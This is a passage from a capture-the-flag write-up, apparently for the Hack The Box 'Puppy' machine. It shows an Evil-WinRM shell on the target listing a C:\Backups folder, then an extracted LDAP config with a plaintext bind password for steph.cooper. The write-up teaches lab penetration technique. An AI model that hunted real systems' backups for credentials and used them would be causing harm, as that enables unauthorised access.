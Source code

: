 ## **Privilege Escalation**

In the C:\ drive we can find a folder called backups that has a zip file.

```terminal
*Evil-WinRM* PS C:\> ls
                                                                                               
    Directory: C:\                                                                             
                                                                                               
                                                                                               
Mode                 LastWriteTime         Length Name                                         
----                 -------------         ------ ----                                         
d-----          5/9/2025  10:48 AM                Backups                                      
d-----         5/12/2025   5:21 PM                inetpub                                      
d-----          5/8/2021   1:20 AM                PerfLogs                                     
d-r---          4/4/2025   3:40 PM                Program Files                                
d-----          5/8/2021   2:40 AM                Program Files (x86)
d-----          3/8/2025   9:00 AM                StorageReports
d-r---          3/8/2025   8:52 AM                Users
d-----         5/13/2025   4:40 PM                Windows                                      
                                                                                               

*Evil-WinRM* PS C:\> cd backups
*Evil-WinRM* PS C:\backups> ls


    Directory: C:\backups


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          3/8/2025   8:22 AM        4639546 site-backup-2024-12-30.zip
```

Let's download the file and inspect it's content.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<ldap-config>
    <server>
        <host>DC.PUPPY.HTB</host>
        <port>389</port>
        <base-dn>dc=PUPPY,dc=HTB</base-dn>
        <bind-dn>cn=steph.cooper,dc=puppy,dc=htb</bind-dn>
        <bind-password>ChefSteph2025!</bind-password>
    </server>
    <user-attributes>
        <attribute name="username" ldap-attribute="uid" />
        <attribute name="firstName" ldap-attribute="givenName" />
        <attribute name="lastName" ldap-attribute="sn" />
        <attribute name="email" ldap-attribute="mail" />
    </user-attributes>
    <group-attributes>
        <attribute name="groupName" ldap-attribute="cn" />
        <attribute name="groupMember" ldap-attribute="member" />
    </group-attributes>
    <search-filter>
        <filter>(&(objectClass=person)(uid=%s))</filter>
    </search-filter>
</ldap-config>
```
